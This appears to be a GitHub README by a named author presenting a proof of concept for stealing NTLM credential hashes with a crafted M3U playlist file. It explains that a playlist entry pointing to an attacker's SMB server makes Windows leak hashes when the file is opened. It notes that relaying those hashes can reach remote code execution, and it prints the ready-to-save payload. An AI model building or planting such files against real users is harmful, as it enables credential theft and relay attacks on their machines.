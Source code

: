 # NTLM-THEFT VIA M3U FILE 

Rather than exploiting the vulnerability in Microsoft Word files or Outlook’s handling of RTF files, an attackers will take the 

advantage of "M3U file extension Audio Playlist" a  file that stands for MP3 URL, the m3u file , isn't an actual audio file in and 

of itself. 

An M3U file just points to audio (and sometimes video) files so that a media player can queue them for playback. These text-based 

files can contain URLs and/or absolute or relative pathnames to the media files and/or folders.

The attacker can then use this to inject malicious content into a “M3U” file  ex : SMB Server , so when that file  is opened, the 

target automatically leaks credentials in the form of NTLM hashes.

# NOTE:  RCE can be achieved by chaining NTLM theft with smb signing disabled using ntlm relay .




Tested on windows 7  “all player"


PoC :

#EXTM3U
#EXTINF:-1,leak_it_please

\\attacker_smb_server\ROPNOP

Save it as m3u extention.



![](https://github.com/kofa2002/NTLM-THEFT/blob/master/M3U.PNG)


![](https://github.com/kofa2002/NTLM-THEFT/blob/master/Screenshot%20from%202019-05-04%2008-11-15.png)


Author : Soufian El Hachmi
